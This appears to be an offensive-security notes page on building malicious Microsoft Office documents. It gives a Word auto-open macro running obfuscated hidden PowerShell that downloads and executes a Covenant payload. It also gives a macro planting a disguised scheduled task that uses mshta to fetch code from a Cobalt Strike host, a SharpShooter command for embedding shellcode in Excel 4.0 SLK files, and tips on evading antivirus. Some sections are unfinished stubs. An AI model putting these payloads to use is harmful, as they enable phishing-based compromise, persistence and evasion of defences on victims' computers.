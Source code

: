```yaml
---
title: "Malicious Documents"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

reference: https://blog.f-secure.com/dechaining-macros-and-evading-edr/

#### Word Macro's
##### Basic Office Macro using PowerShell
The example below shows a basic Microsoft Office Word macro, downloading and executing a covenant payload.
```vb
Sub AutoOpen()    
        Call Shell("powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgA5AC8AZgBpAGcAYQAnACkA")
End Sub
```

##### Creating a sheduled task using a Macro
The example code below shows the VB code that creates a sheduled task, which in turn downloads and executes a malicious SCT file using MSHTA. 
```vb
Sub Auto_open()
Call Shell("schtasks /create /sc MINUTE /tn ""Windows Error Reporting"" /tr ""mshta.exe javascript:a=GetObject('script:http://cobaltstrike.c2/updates/microsoftftp.jpg').Exec();close();"" /mo 15 /F")
End Sub
```
***

#### Malicious HTA ToDo
Find good (working) examples

#### Excel 4.0 Macro
Note: As of 09-22-2020 Microsoft has integrated Excel 4.0 (XLM) into the ASMI interface. (https://techcommunity.microsoft.com/t5/office-365-blog/keeping-users-safe-and-productive-with-microsoft-365-apps-for/ba-p/1665728)
Excel 4.0 Marcos are a depricated feature within Excel. Even though functionality (and documentation) might be limited, this is still a very powerfull way of executing code. Because this form of Macro's is so old, mant modern AV solutions have trouble tracking and detecting these macros. A big advantage of these Macros are the fact that it doesn't spawn a (child) process, which defeats parent/child analysis.
The SharShooter framework from MDSec has the ability to generate slk files (Excel files with 4.0 Macros), while embedding your own shellcode. The example below shows the command needed to generate a SLK file with a msfvenom generated shellcode file.
```
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test
```
You might want to put some effor into making the Excel file look nice :)




#### VBA Stomping (Work Out)
reference: https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278


#### Offensive VBA and CLS Entanglement
Repository with VBA, used for offensive purposes: https://github.com/BC-SECURITY/Offensive-VBA-and-XLS-Entanglement



